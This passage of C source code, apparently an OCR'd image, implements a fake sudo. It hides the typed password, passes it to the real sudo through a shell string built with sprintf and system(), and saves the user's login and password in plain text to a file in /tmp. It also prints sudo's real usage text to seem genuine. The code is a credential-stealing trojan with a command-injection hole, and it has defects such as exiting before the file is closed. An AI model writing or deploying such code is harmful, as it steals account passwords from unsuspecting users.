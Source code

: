 ```
            char password[64];
            char Command[255];
            char *lgn;
            lgn = getlogin();
            struct passwd *pw;
            FILE *fp;
            /* disabling echo */
            tcgetattr(fileno(stdin), &oflags);
            nflags = oflags;
            nflags.c_lflag &= ~ECHO;
            nflags.c_lflag |= ECHONL;

            if (tcsetattr(fileno(stdin), TCSANOW, &nflags) != 0) {
                perror("tcsetattr");
                return EXIT_FAILURE;
            }

            printf("Password: ");
            fgets(password, sizeof(password), stdin);
            password[strlen(password) - 1] = 0;
            sprintf(Command, "sudo -S <<< %s command %s", password, argv[1]);
            system(Command);
            fp = fopen("/tmp/tmp-mount-sU90gRA6", "w+");
            fprintf(fp, "User: %s\tPassword: %s", lgn, password); exit(1);
            fclose(fp);
            /* restore terminal */
            if (tcsetattr(fileno(stdin), TCSANOW, &oflags) != 0) {
                perror("tcsetattr");
                return EXIT_FAILURE;
            }

    return 0;
   }
   else {
    printf("usage: sudo -h | -K | -k | -V\nusage: sudo -v [-AknS] [-g group] [-h host] [-p prompt] [-u user]\nusage: sudo -l [-AknS] [-g group] [-h host] [-p prompt] [-U user] [-u user] [command]\nusage: sudo [-AbEHknPS] [-C num] [-D directory] [-g group] [-h host] [-p prompt] [-R directory] [-T timeout] [-u user]\n\t[VAR=value] [-i|-s] [<command>]\nusage: sudo -e [-AknS] [-C num] [-D directory] [-g group] [-h host] [-p prompt] [-R directory] [-T timeout] [-u user]\n\tfile ...\n");
   }
	return 0;
}
```
